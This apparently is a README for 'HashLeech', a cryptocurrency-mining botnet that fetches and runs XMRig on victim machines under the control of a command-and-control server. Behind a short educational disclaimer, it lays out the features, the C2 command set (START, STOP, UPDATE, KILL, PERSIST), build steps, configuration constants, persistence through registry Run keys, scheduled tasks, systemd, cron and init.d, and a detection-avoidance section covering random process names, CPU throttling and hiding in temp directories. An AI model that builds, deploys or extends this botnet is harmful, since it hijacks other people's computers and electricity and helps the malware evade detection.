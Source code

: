 HashLeech - Cryptocurrency Mining Botnet
Disclaimer: This project is for educational and research purposes only. Unauthorized cryptocurrency mining on systems you don't own is illegal and unethical. Use this code only on systems you have explicit permission to test on.

Overview
HashLeech is a cryptocurrency mining botnet implementation that demonstrates how malware can distribute and manage cryptocurrency miners across multiple systems. Unlike traditional botnets focused on DDoS attacks, HashLeech specializes in Monero (XMR) mining using the XMRig miner.

Features
|---------------------------------------------------------------------------|
|Automatic Miner Deployment: Downloads and installs XMRig miner automatically|
|Command & Control (C2) Server: Centralized control of all mining nodes|
|Stealth Operation: Runs with minimal resource usage detection|
|Cross-Platform: Supports both Windows and Linux systems|
|Persistence Mechanisms: Automatically reinstalls after reboots|
|Dynamic Configuration: Remote updates of mining pool and settings|
|Heartbeat Monitoring: Regular status reports to C2 server|
|Resource Optimization: Adjusts mining intensity based on system specs|

```graph mermaid
    BotClient[Bot Client (this repository)]
    C2Server[C2 Server (separate repository)]
    XMRig[XMRig Miner]

    BotClient -->|Connects to| C2Server
    BotClient -->|Downloads and runs| XMRig
    BotClient -->|Reports mining statistics| C2Server
    BotClient -->|Implements persistence| BotClient

    C2Server -->|Manages all connected bots| BotClient
    C2Server -->|Sends mining commands| XMRig
    C2Server -->|Collects statistics| BotClient
    C2Server -->|Updates mining configuration| XMRig

    XMRig -->|Official XMRig miner| XMRig
    XMRig -->|Configured for Monero mining| XMRig
```

Installation
For Research/Testing Purposes
Clone the repository:

bash
git clone https://github.com/yourusername/HashLeech.git
cd HashLeech
Configure the C2 server address in bot.go:

go
const C2Address = "your.c2.server.com:7003"
Build the bot:

bash
go build -o HashLeech
Run the bot:

bash
./HashLeech
Command Reference
Command	Description	Example
START	Start mining operation	START
STOP	Stop mining operation	STOP
UPDATE	Update miner binary	UPDATE
KILL	Remove miner and bot	KILL
PERSIST	Install persistence mechanism	PERSIST
Configuration
Edit the following constants in bot.go before building:

go
const (
    C2Address         = "your.c2.server.com:7003"  // Your C2 server address
    xmrigURL          = "https://github.com/xmrig/xmrig/releases/download/v6.20.0/xmrig-6.20.0-msvc-win64.zip"
    configURL         = "http://yourconfigserver.com/config.json" 
    minerPath         = "C:\\Windows\\Temp\\xmrig.exe"           // Windows path
    // minerPath      = "/tmp/xmrig"                            // Linux path
)
Mining Configuration
The config.json file should contain standard XMRig configuration. Example:

json
{
    "autosave": true,
    "cpu": true,
    "opencl": false,
    "cuda": false,
    "pools": [
        {
            "url": "pool.moneroocean.stream:10128",
            "user": "your_wallet_address",
            "pass": "x",
            "keepalive": true,
            "tls": false
        }
    ]
}
Persistence Mechanisms
HashLeech implements multiple persistence methods:

Windows:

Registry Run key

Scheduled tasks

Linux:

Systemd service

Cron job

Init.d script

Detection Avoidance
Randomizes process names

Uses standard TLS for C2 communication

Limits CPU usage to avoid detection

Runs with low process priority

Hides in system temp directories
